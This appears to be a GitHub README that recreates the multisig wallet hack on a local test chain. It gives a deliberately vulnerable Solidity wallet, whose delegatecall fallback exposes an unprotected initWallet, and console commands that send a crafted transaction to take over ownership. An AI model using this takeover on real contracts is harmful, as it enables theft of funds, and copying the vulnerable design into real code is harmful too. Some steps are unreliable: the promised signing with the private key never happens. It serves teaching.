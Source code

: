 # Multi-Sig-Wallet-Attack
Simplified recreation of the multisig wallet hack.

#### This command is going to set up a new project with Truffles directory structure. 

```bash
$ truffle init
```

#### Initialise a package.json file.

```bash
$ npm init -y
```

#### This package we install is to help create transactions.

```bash
$ npm i -S ethereumjs-tx
```

#### Creating a couple files that will store our contracts in.

```bash
$ touch contracts/Wallet.sol
$ touch contracts/WalletLibrary.sol
```

#### Creating a file for our deployment script.

```bash
$ touch migrations/2_deploy_wallets.js
```

#### Wallet.sol content.

```javascript
pragma solidity ^0.4.6;

contract Wallet {
    address public owner;
    address public _walletLibrary;

    function Wallet(address libAddress, address _owner) public {
        _walletLibrary = libAddress;
        _walletLibrary.delegatecall(bytes4(keccak256("initWallet(address)")), _owner);
    }

    function withdraw(uint amount) public returns (bool success) {
        return _walletLibrary.delegatecall(bytes4(keccak256("withdraw(uint)")), amount);
    }

    function () payable {
        _walletLibrary.delegatecall(msg.data);
    }
}
```

#### WalletLibrary.sol content.

```javascript
pragma solidity ^0.4.6;

contract WalletLibrary {
    address owner;

    function initWallet(address _owner) {
        owner = _owner;
    }

    function changeOwner(address _newOwner) external {
        if (msg.sender == owner) {
            owner = _newOwner;
        }
    }

    function () payable {}

    function withdraw(uint amount) external returns (bool success) {
        if (msg.sender == owner) {
            return owner.send(amount);
        } else {
            return false;
        }
    }
}
```

#### 2_deploy_wallets.js content.

```javascript
const WalletLibrary = artifacts.require("./WalletLibrary.sol");
const Wallet = artifacts.require("./Wallet.sol");

module.exports = function(deployer, network, accounts) {
  deployer
    .deploy(WalletLibrary)
    .then(() =>
      deployer.deploy(Wallet, WalletLibrary.address, accounts[0])
    );
};
```

#### truffle.js content.

```javascript
module.exports = {
  networks: {
    development: {
      host: "127.0.0.1",
      port: 8545,
      network_id: "*",
    }
  }
};
```

#### Starting our blockchain.

```bash
$ ganache-cli -u 0 
```

#### Deploy our contracts.

```bash
$ truffle migrate
```

#### Console for our blockchain client.

```bash
$ truffle console
```

#### Deployed contract instance.

```bash
truffle(development)> Wallet.deployed().then(w => wallet = w)
```

#### Check to see who the wallet owner is.

```bash
truffle(development)> wallet.owner.call()
```

## Now we'll start our attack

#### This give us the first 4 bytes of the hashed method for the method_id.

```bash
truffle(development)> data = web3.sha3('initWallet(address)').substring(0, 10)
```

#### Then we pass the param to our function. Params and variables are expected to be 32bytes by the EVM.

```bash
truffle(development)> data += '0'.repeat(24) + web3.eth.accounts[1].substring(2)
```

#### Now we're going to create the attack transaction.

```bash
truffle(development)> txParams = { 
  to: wallet.address, 
  from: web3.eth.accounts[1],
  gasPrice: web3.toHex(30000),
  gas: web3.toHex(1000),
  data: data,
  nonce: '0x0',
}
```

#### Import the Ethereumjs-tx package.

```bash
truffle(development)> EthTxt = require('ethereumjs-tx')
```

#### Create a new transaction instance.

```bash
truffle(development)> tx = new EthTxt(txParams)
```

#### Now will get our privateKey to sign the attack transaction.

```bash
truffle(development)> privateKey = Buffer.from(‘PRIVATE_KEY_OF_ATTACKER_ADDRESS’, ‘hex’)
```

#### Now we will sign the transaction using our privateKey and transaction instance

```bash
truffle(development)> web3.eth.sendRawTransaction(`0x${tx.serialize().toString('hex')}`)
```

#### Lets take a look at our owner.

```bash
truffle(development)> wallet.owner.call()
```

#### Now we can see that the attacker has successfully set themselves as the owner, giving them complete control over the wallet and all of its functionality. Done!
